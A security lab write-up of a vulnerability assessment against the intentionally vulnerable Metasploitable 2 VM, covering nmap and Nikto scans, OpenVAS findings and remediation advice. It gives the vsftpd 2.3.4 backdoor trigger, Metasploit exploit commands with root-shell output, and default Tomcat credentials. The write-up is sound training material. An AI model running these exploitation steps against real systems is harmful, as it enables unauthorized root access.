




# Phase 6 — Vulnerability Assessment Workflow
## Target: Metasploitable 2
### AegisPro CyberShield TX — Lab Assessment Practice

---

## Objective

Execute a full vulnerability assessment against Metasploitable 2 following the AegisPro CyberShield TX standardized vulnerability assessment methodology. This phase demonstrates the complete assessment lifecycle: host discovery, service enumeration, automated vulnerability scanning, manual validation, and findings documentation with remediation recommendations.

> **Disclaimer:** All testing performed against Metasploitable 2 — an intentionally vulnerable virtual machine deployed on an isolated lab network (10.0.1.0/24). No unauthorized systems were targeted. All activity was performed within the AegisPro CyberShield TX home lab environment.

---

## Environment

| Component | Details |
|-----------|---------|
| Attacker | Kali Linux 2025.2 (AegisPro-Kali) — 10.0.1.10 |
| Target | Metasploitable 2 — 10.0.1.104 |
| Network | Isolated lab LAN (10.0.1.0/24) behind pfSense |
| Scan type | Unauthenticated |
| Tools used | Nmap, OpenVAS / GVM, Nikto, Metasploit Framework |
| Assessment date | May 2026 |

---

## Methodology

This assessment followed the AegisPro six-phase vulnerability assessment lifecycle:

```
Step 1 — Scope Definition
Step 2 — Host Discovery
Step 3 — Port & Service Enumeration
Step 4 — Vulnerability Scanning
Step 5 — Manual Validation
Step 6 — Findings Documentation & Remediation
```

---

## Step 1 — Scope Definition

**Target:** Metasploitable 2 (10.0.1.104)
**Assessment type:** Unauthenticated internal network vulnerability assessment
**Scope:** Single host, all ports
**Objective:** Identify all vulnerabilities detectable without credentials, document findings with CVE references and CVSS scores, validate critical findings through manual exploitation, and produce prioritized remediation recommendations.

---

## Step 2 — Host Discovery

Host discovery was performed against the full lab subnet to identify all live hosts before targeting Metasploitable 2 specifically.

```bash
nmap -sn 10.0.1.0/24
```

Metasploitable 2 was confirmed live at **10.0.1.104**.


---

## Step 3 — Port & Service Enumeration

A full port and service enumeration scan was performed against the target:

```bash
nmap -sV -sC -O -p- 10.0.1.104 -oN metasploitable-nmap.txt
```

### Scan flags explained

| Flag | Purpose |
|------|---------|
| `-sV` | Service version detection |
| `-sC` | Default NSE script execution |
| `-O` | OS fingerprinting |
| `-p-` | Scan all 65535 ports |
| `-oN` | Save output to file |

### Key services identified

| Port | Service | Version | Risk |
|------|---------|---------|------|
| 21 | FTP | vsftpd 2.3.4 | **Critical** — contains backdoor (CVE-2011-2523) |
| 22 | SSH | OpenSSH 4.7p1 | High — outdated version |
| 23 | Telnet | Linux telnetd | High — cleartext protocol |
| 25 | SMTP | Postfix smtpd | Medium |
| 80 | HTTP | Apache 2.2.8 | High — outdated version |
| 139/445 | SMB | Samba 3.x | High — multiple known CVEs |
| 3306 | MySQL | 5.0.51a | High — outdated, default credentials |
| 5432 | PostgreSQL | 8.3.0 | Medium |
| 8180 | HTTP | Apache Tomcat | High — default credentials |

The breadth of exposed services on a single host is characteristic of Metasploitable 2's intentionally insecure design and mirrors what is sometimes found on legacy systems in small business environments that have never been audited.



---

## Step 4 — Vulnerability Scanning

### 4.1 — OpenVAS / GVM Scan

**Tool:** OpenVAS / GVM (Greenbone Vulnerability Manager)
**Scan configuration:** Full and Fast
**Scan type:** Unauthenticated
**Target:** 10.0.1.104

The OpenVAS scan was configured and executed via the GVM web interface at `https://127.0.0.1:9392`. A new target was created for `10.0.1.104` and the Full and Fast scan profile was selected to ensure comprehensive coverage.

**Important note on OpenVAS severity scale:**

OpenVAS uses **High, Medium, Low, and Log** as its severity designations — there is no "Critical" label. Findings that other frameworks would classify as Critical (CVSS 9.0+) appear as High in OpenVAS with their CVSS score indicating the true severity level. This is important context when interpreting OpenVAS reports alongside other scanning tools.

#### OpenVAS Findings Summary

| Severity | Count |
|----------|-------|
| **High** (includes CVSS 9.0+ findings) | Multiple |
| **Medium** | Multiple |
| **Low** | Multiple |
| **Log** | Multiple |



#### Notable High Severity Findings from OpenVAS

| Finding | CVSS | CVE |
|---------|------|-----|
| vsftpd 2.3.4 Backdoor | 10.0 | CVE-2011-2523 |
| Samba Multiple Vulnerabilities | 9.0+ | Multiple |
| Apache 2.2.8 Outdated | 7.8 | Multiple |
| MySQL Default Credentials | 7.5 | — |
| OpenSSH Outdated Version | 7.8 | Multiple |
| Telnet Cleartext Protocol | 7.5 | — |
| Apache Tomcat Default Credentials | 9.0 | — |

All findings were manually reviewed to identify and eliminate false positives before the findings register was finalized.

### 4.2 — Nikto Web Server Scan

**Tool:** Nikto
**Target:** HTTP service on port 80

```bash
nikto -h http://10.0.1.104 -output nikto-results.txt
```

Nikto was used specifically to assess the web server running on port 80 (Apache 2.2.8). As a web-focused scanner, Nikto complements OpenVAS by providing deeper analysis of web-specific misconfigurations and vulnerabilities.

#### Key Nikto Findings

- **Apache 2.2.8 detected** — significantly outdated, current version is 2.4.x
- **PHP information disclosure** — `/phpinfo.php` exposed, revealing server configuration details
- **phpMyAdmin accessible** — database management interface publicly accessible with no access controls
- **DVWA installation detected** — intentionally vulnerable web application present
- **Mutillidae detected** — additional vulnerable web application present
- **Directory indexing enabled** — `/doc/` and other directories browsable
- **Default Apache test page** — server identity information disclosed
- **Missing security headers** — no X-Frame-Options, no Content-Security-Policy



---

## Step 5 — Manual Validation (Metasploit)

### vsftpd 2.3.4 Backdoor — CVE-2011-2523

Following the OpenVAS identification of CVE-2011-2523 (vsftpd 2.3.4 backdoor), manual exploitation was performed using the Metasploit Framework to confirm exploitability and demonstrate real-world impact.

**Background on CVE-2011-2523:**

In 2011, a malicious backdoor was introduced into the vsftpd 2.3.4 source code via a compromised upload to the project's distribution server. The backdoor triggers when a username containing `:)` (a smiley face) is sent during the FTP login process. When triggered, the backdoor opens a command shell on port 6200 of the target system, providing full root-level access to any attacker who connects to it — no password required.

This vulnerability has a CVSS score of **10.0** — the maximum possible score — reflecting the fact that it requires no authentication, no user interaction, provides complete system compromise, and is trivially exploitable.

**Exploitation steps:**

```bash
# Start Metasploit Framework
msfconsole

# Search for the vsftpd module
search vsftpd

# Select the exploit module
use exploit/unix/ftp/vsftpd_234_backdoor

# Configure the target
set RHOSTS 10.0.1.104

# Execute the exploit
run
```

**Result:**

The exploit executed successfully. A command shell was returned with **root-level access** to the Metasploitable 2 system. Full system compromise was achieved within seconds of running the exploit — no credentials, no user interaction, no additional steps required.

```
[*] 10.0.1.104:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.0.1.104:21 - USER: 331 Please specify the password.
[+] 10.0.1.104:21 - Backdoor service has been spawned, handling...
[+] 10.0.1.104:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened

id
uid=0(root) gid=0(root)
whoami
root
```



**Impact assessment:**

From this root shell an attacker would have complete and unrestricted control of the system including the ability to:

- Read, modify, or delete any file on the system
- Install persistent backdoors or malware
- Pivot to other systems on the network using credentials harvested from this machine
- Access and exfiltrate any data stored on the system
- Disable or modify security controls

---

## Step 6 — Findings Register & Remediation

### Findings Summary

| Severity | Count |
|----------|-------|
| High (CVSS 9.0–10.0) | 3+ |
| High (CVSS 7.0–8.9) | 5+ |
| Medium | Multiple |
| Low | Multiple |

### Critical Findings Requiring Immediate Attention

---

#### FINDING-001 — vsftpd 2.3.4 Backdoor

| Field | Details |
|-------|---------|
| **CVE** | CVE-2011-2523 |
| **CVSS Score** | 10.0 |
| **Severity** | High (CVSS 10.0 — Critical severity) |
| **Affected service** | FTP — port 21 |
| **Exploitability** | Trivial — public exploit available, no credentials required |
| **Validation** | Confirmed — root shell obtained via Metasploit |

**Description:** The vsftpd 2.3.4 service contains a deliberately introduced backdoor that provides unauthenticated root-level access to any attacker who sends a specially crafted username during FTP login.

**Remediation:**
- Immediately disable or remove the vsftpd service if FTP is not required
- If FTP is required, upgrade to vsftpd 3.x immediately
- Replace FTP with SFTP (SSH File Transfer Protocol) — FTP transmits credentials in cleartext regardless of version
- Implement network segmentation to restrict FTP access to authorized hosts only

---

#### FINDING-002 — Telnet Service Enabled

| Field | Details |
|-------|---------|
| **CVE** | No specific CVE — design vulnerability |
| **CVSS Score** | 7.5 |
| **Severity** | High |
| **Affected service** | Telnet — port 23 |
| **Exploitability** | Any attacker with network access can intercept credentials |

**Description:** Telnet transmits all data including usernames and passwords in cleartext. Any device on the same network segment can capture Telnet credentials using a packet analyzer such as Wireshark.

**Remediation:**
- Disable Telnet immediately
- Replace with SSH for all remote administration
- Verify no production systems in the environment use Telnet

---

#### FINDING-003 — Apache Tomcat Default Credentials

| Field | Details |
|-------|---------|
| **CVE** | Multiple — varies by version |
| **CVSS Score** | 9.0 |
| **Severity** | High (CVSS 9.0 — Critical severity) |
| **Affected service** | HTTP — port 8180 (Tomcat Manager) |
| **Exploitability** | Default credentials `tomcat/tomcat` provide admin access |

**Description:** Apache Tomcat is running on port 8180 with default administrative credentials. Access to the Tomcat Manager application allows deployment of arbitrary WAR files, which can be used to achieve remote code execution.

**Remediation:**
- Change all default credentials immediately
- Restrict Tomcat Manager access to specific authorized IP addresses
- Upgrade to a supported Tomcat version
- Disable the Manager application if not required

---

#### FINDING-004 — phpMyAdmin Publicly Accessible

| Field | Details |
|-------|---------|
| **CVE** | Multiple |
| **CVSS Score** | 7.5 |
| **Severity** | High |
| **Affected service** | HTTP — port 80 |

**Description:** The phpMyAdmin database management interface is publicly accessible with no access controls. This interface provides direct access to the MySQL database and can be used to read, modify, or delete database contents.

**Remediation:**
- Restrict phpMyAdmin access to localhost or specific authorized IPs only
- Implement strong authentication
- Remove phpMyAdmin from production systems — use CLI or restricted tooling instead

---

### Risk Statement

The Metasploitable 2 assessment identified multiple critical and high severity vulnerabilities across numerous services. The most significant finding — a deliberately backdoored FTP service (CVE-2011-2523) — was confirmed to provide unauthenticated root-level access to the system within seconds of exploitation. This finding alone represents complete system compromise.

The breadth of vulnerable services present on this host demonstrates the importance of regular vulnerability scanning, patch management, and the principle of least functionality — running only the services absolutely required for business operations and ensuring all running services are current and securely configured.

---

## Lessons Learned

> *Internal observations for professional development — not for client delivery.*

- OpenVAS's "High" designation covers what other frameworks call both High and Critical — always reference the CVSS score directly rather than relying on the label alone when comparing findings across tools
- The vsftpd backdoor is a textbook example of supply chain compromise — the vulnerability wasn't in the code itself but was introduced through a compromised distribution channel. This is increasingly relevant in modern software security
- Nikto and OpenVAS complement each other well — OpenVAS found the network-level service vulnerabilities while Nikto provided deeper web-specific findings that OpenVAS missed or underreported
- Manual validation with Metasploit is critical for demonstrating real impact to clients — showing a root shell is far more compelling than a scanner report entry
- The combination of automated scanning and manual validation mirrors exactly the methodology used in professional engagements like AEG-2026-001

---

## CISSP Domain Alignment

| Domain | Activities in this phase |
|--------|-------------------------|
| Domain 1 — Security & Risk Management | Risk identification, finding prioritization, business impact assessment |
| Domain 6 — Security Assessment & Testing | Vulnerability scanning methodology, manual validation, findings analysis |
| Domain 7 — Security Operations | Tool operation, exploitation validation, detection awareness |

---

## Screenshots Index

| Filename | Content |
|----------|---------|
| `host-discovery.png` | Nmap -sn host discovery results |
| `nmap-metasploitable-2.png` | Full Nmap service scan output |
| `openvas-report.png` | OpenVAS scan report summary |
| `nikto-results.png` | Nikto web server scan output |
| `metasploit-vsftpd.png` | Metasploit vsftpd exploitation — root shell |

---

*AegisPro CyberShield TX — Phase 6 Lab Documentation — May 2026*
*Lead Assessor: Nicholas Turner, CISSP*
